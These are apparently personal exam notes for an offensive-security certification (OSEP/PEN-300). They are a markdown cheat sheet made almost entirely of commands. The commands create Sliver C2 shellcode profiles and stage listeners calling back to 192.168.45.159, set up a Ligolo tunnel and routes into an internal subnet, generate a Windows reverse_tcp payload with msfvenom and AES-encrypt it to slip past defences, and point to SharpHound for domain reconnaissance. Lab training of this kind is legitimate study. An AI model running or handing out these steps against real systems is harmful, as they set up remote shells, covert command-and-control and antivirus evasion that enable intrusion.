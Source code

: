 
## Sliver
#### *Note: for the exam will need to create profiles based on vpn ip address*

### Create profiles

```bash
profiles new --mtls 192.168.45.159:9001 -l -f shellcode -G -e --os windows -a amd64 osep_shellcode
profiles new --mtls 192.168.45.159:4444 -l -f shellcode -G -e --os windows -a 386 osep_shellcode_x86
```

### Check Profiles

```bash
profiles
```

### Configure Listeners

```bash
mlts -l 9001
stage-listener -u tcp://192.168.45.159:4004 -p osep_shellcode_x86
stage-listener -u tcp://192.168.45.159:9999 -p osep_shellcode
stage-listener -u http://192.168.45.159:8888 -p osep_shellcode
stage-listener -u http://192.168.45.159:4040 -p osep_shellcode_x86
```

### Check listeners

```bash
jobs
```



## Ligolo

```bash
sudo ip tuntap add user roger mode tun ligolo
sudo ip link set ligolo up 

```

- start proxy
```bash
~/Documents/Tools/Ligolo/0.6.2/proxy_linux-arm64 -selfcert
```

- add route
```bash
sudo ip route add 172.16.173.0/24 dev ligolo
```


### WWW Directory

```bash
~/home/roger~/Documents/OSEP/Pen300/Testing/www
```


### AES Encrypt Shellcode

```bash
msfvenom -p windows/x64/custom/reverse_tcp lhost=tun0 lport=9999 -f csharp -o aspx.txt
```

```bash
vi aspx.txt
```

```bash
python3 /home/roger/Documents/OSEP/Pen300/18CombiningThePieces/files/encrypt.py --aes -i aspx.txt -k keys.txt -o aspx-aes.txt
```

```bash
head keys.txt
```

```bash
cat aspx-aes.txt | base64 -w0
```

## SharpHoundCE Directory

```bash
/home/roger/Documents/Tools/SharpHoundCE/SharpHound.exe
```